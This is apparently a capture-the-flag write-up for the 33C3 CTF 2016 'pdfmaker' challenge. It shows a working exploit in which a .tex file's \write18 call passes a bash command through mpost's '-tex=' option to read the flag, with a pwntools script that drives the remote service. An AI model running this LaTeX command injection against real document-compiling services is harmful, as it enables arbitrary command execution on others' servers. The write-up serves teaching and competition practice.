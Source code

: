 ```yaml
---
type: ctf
title : 33C3 CTF 2016 - pdfmaker
tags: [33C3 CTF, pdfmaker]
date : 2016-12-29
author: Eno Leriand
featuredImage: https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRZdOkBR-WeQBL8Yi2zqZv0E7BlKhSsl0c-8fWhpDilwmq3G2ZfNWcXAgesT-dINcnftiw&usqp=CAU
---
```


**Category:** Misc
**Points:** 75

>Just a tiny [application](https://gist.github.com/bruce30262/80b089e24d3a34862fe78892c63d8dcf), that lets the user write some files and compile them with pdflatex. 
>What can possibly go wrong?
>nc 78.46.224.91 24242

So this is a service that allow us to create, show & compile some files.
* `create`: Create a file. Valid file format are: `.log`, `.tex`, `.mb`, `.sty` & `.bib`
* `show`: Show the file content.
* `compile`: Compile a file with the `pdflatex` command.

We started by googling the key word **"pdflatex exploit"**, then teammate **mike** found a useful link: [Pwning coworkers thanks to LaTeX](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)

Basically we just need to follow the method mentioned in the post:
1. Create a `.mp` file
2. Create a `.tex` file with the malicious content. Here we change the command to `(cat${IFS}$(ls|grep${IFS}33C3))>qqq.log`, which will later store the flag content into `qqq.log`
3. Compile the `.tex` file. This will cause `pdflatext` execute our command
4. Show the `qqq.log` file and get the flag

Here's our final exploit:

```txt sss.mp
verbatimtex
\documentclass{minimal}\begin{document}
etex beginfig (1) label(btex blah etex, origin);
endfig; \end{document} bye
```

```txt aaa.tex
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (cat${IFS}$(ls|grep${IFS}33C3))>qqq.log" "sss.mp"}
\end{document}
```

```python exp.py
from pwn import *

r : remote("78.46.224.91", 24242)

log.info("creating sss.mp...")
r.sendlineafter(">", "create mp sss")
r.recvline()
f : open("sss.mp", "r")
for line in f:
    r.sendline(line.strip())
r.sendline("\q")
f.close()

log.info("creating aaa.tex...")
r.sendlineafter(">", "create tex aaa")
r.recvline()
f : open("aaa.tex", "r")
for line in f:
    r.sendline(line.strip())
r.sendline("\q")
f.close()

r.sendlineafter(">", "compile aaa")
r.sendlineafter(">", "show log qqq")

r.interactive()
```

**Don't take LaTEX files from strangers!!**

flag: `33C3_pdflatex_1s_t0t4lly_s3cur3!`

